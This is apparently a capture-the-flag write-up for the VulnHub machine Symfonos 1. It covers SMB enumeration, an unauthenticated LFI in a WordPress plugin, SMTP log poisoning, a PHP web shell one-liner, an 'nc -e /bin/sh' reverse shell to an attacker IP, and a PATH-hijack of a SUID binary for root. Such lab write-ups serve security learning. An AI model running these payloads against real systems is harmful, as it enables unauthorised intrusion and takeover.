<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/symfonos-1,322/">Symfonos</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/zayotic/"> zayotic</a></h4>

## Nmap



Okay we see SMB port open so let's just run `enum4linux` and see what we can find more information about it.



We can see that we are allowed to list `/anonymous` share, this can be done using `smbclient`.



***

__Command explanation__
```bash
➜ smbclient //192.168.43.222/anonymous -U % -N
```

Here the `-U` is for `username` and `%` basically uses `single-space` as the username.

The `-N` argument is used for `No-password`

For more detail you can read: [stackexchange/accessing-a-smb-share-without-a-password](https://unix.stackexchange.com/questions/65106/accessing-a-smb-share-without-a-password)

***

Now we can use `get` command to get that file to our machine and then read it.



We can see that there are passwords in this file which is pretty good, we won't have to bruteforce anything :)

## Dirsearch

Now shifting my focus to the website that was running on port `80`. I decided to run `dirsearch`.



None of them were useful in anyway.

***

After spending more then an hours searching through SMTP and the `anonymous` smb share I finally found something, actually I thought of something and that got me something.

I tried reading the `heilos` SMB share with all the password I got from `attention.txt` and to my surprise it worked.

```bash
➜ smbclient //192.168.43.222/helios -U helios
```

The password was `qwerty`



**I should've tried this the moment I got some random passwords.** 🤦‍♂️

We can see that there's suppose to be `h3l105/` on the website.

***

Visiting that webpage I got a wordpress website so I decided to use `wpscan`.

```bash
$ wpscan --url http://192.168.43.222/h3l105/ --wp-content-dir wp-content --enumerate u
```

With this command I was only able to get a single user named `admin`



After scratching my head for quite sometime I decided to talk to one and only [__@DCAU7__](https://twitter.com/DCAU7), he provided me with the right command from which I was able to get some vulnerable plugins.

```bash
➜ wpscan --url http://symfonos.local/h3l105/ -e p --no-banner --no-update
```



***

__Problem with WPSCAN__

The actual problem was that when I first tried uing wpscan I was using the IP of the machine. But then I edited my `/etc/host` file by adding following line to it:

```
IP     symfonos.local
```

After that instead of using the IP I used `symfonos.local` in wpscan and it gave the vuln plugin. Anyway, back to work.

***

Since we don't have the credentials for WP login we'll use the [unauthenticated LFI](https://www.exploit-db.com/exploits/40290)

We try the link that is mentioned in the exploit i.e `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd` and it works.



After searching a lot on `how to get reverse shell via LFI` and trying to read other files from the system I was able to read the `helios` mail file in `/var/mail/`



Using this link we can reset the password and login into the wordpress.

***

At first I thought this is it because now we can just get a reverse shell via themes but that thing didn't worked. I tried updating the `404.php` template of the `twentynine` theme but whenever I clicked on the `update file` button I got an error.



We can't edit any file there because the wordpress removed the support to edit templates from dashboard sometime ago and since this wordpress is latest verion i.e 5.2.2, it isn't working in this.

This seems like a dead end.

***

I went back to reading files and then I stubled upon this article called [`SMTP Log Poisioning through LFI to Remote Code Excecution`](https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/). I followed the article and was able to poision the logs and have RCE.



After this if we read the `/var/mail/helios` we can see



Here I tried lot of the reverse shell payload from [PayloadsAllTheThings/reverse-shell-cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
but none of them work.

After talking with the author they said I should URL encode the payload before using it. And that one worked.

```bash
➜ http http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php\?pl\=/var/mail/helios\&c\=nc%20-e%20%2Fbin%2Fsh%20192.168.43.70%204444

```



***

It's time to enumerate to find our key to `pwning root`. I used enumeration script to do that part:



So there's a SUID file which isn't present there ususally. Let's see what it does:



It's printing some header information. Since it's a binary we can't see exactly what's  inside it but we can still run `strings` on the binary to see if we find can something.



If we look carefully we can see
```
curl -I
http://l
ocalhost
```

this mean it's using `curl -I http://localhost` and we are getting only the headers because it's using `-I` argument.

We can easily exploit this because the problem with this is that it's using `curl` and not `/bin/curl` or something like that. So we can just make our own curl file and then run the SUID binary to get the root shell.



* `echo $'#!/bin/sh\n/bin/sh' > curl`: This will make a file named `curl` which will have `/bin/sh` in it.
* `chmod +x curl`: We change the permission for the file to make it executable.
* `export PATH=$(pwd):$PATH`: This will add the current path to the `PATH` variable.

__NOTE__: run the export command from the directory you've made the `curl` file in. In my case I did all of the above from `/tmp`.

After this we can just read the flag file which in this case was named `proof.txt`



***

## Another method for Reverse shell

There's one other method to get a reverse shell on the system. Instead of just sending

```php
<?php system($_GET['c']); ?>
```

We can send the complete php reverse shell([php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)) in the email data.

And when we'll try to read the email it will trigger the shell.

This is probably the faster way to get the reverse shell.

@DCAU7 told me about this neat trick.


***

This was really awesome machine, I got to learn a lot from this machine.

__Thanks to:__

* [@zayotic](https://twitter.com/zayotic) for creating an awesome machine,
* [@DCAU7](https://twitter.com/DCAU7) for helping me out.
